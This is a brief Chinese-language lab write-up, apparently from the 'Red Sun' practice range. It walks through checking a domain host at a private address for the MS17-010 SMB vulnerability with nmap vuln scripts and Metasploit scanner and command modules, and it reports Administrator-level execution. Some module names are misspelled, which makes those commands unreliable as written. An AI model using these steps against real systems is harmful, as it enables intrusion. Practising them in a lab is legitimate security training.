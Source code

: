 



#### 域内主机渗透

#### 漏洞检测利用

目标端口的139和445端口开放，联想到ms17-010这个漏洞，尝试去验证这个漏洞是否存在

首先使用nmap自带的脚本进行漏洞Fuzz：

```
nmap --script=vuln  192.168.52.141
```

这里的nmap扫描并没有成功



尝试使用/scanner/smb/ms17_010_commmand模块对目标进行扫描,发现目标可能存在ms17_010

```
use  auxiliary/scanner/smb/smb_ms17has
set rhosts 192.168.52.141
```

![image-20210808220259617](红日靶场内网渗透.assets/image-20210808220259617.png)



下面使用admin/smb/ms17_010_command模块对该主机的ms17_010判断是否为可以利用和执行的权限

```
use  admin/smb/ms17_010_command
```

可以看到目标主机执行的权限为Administrator管理员权限

![image-20210808221620326](红日靶场内网渗透.assets/image-20210808221620326.png)
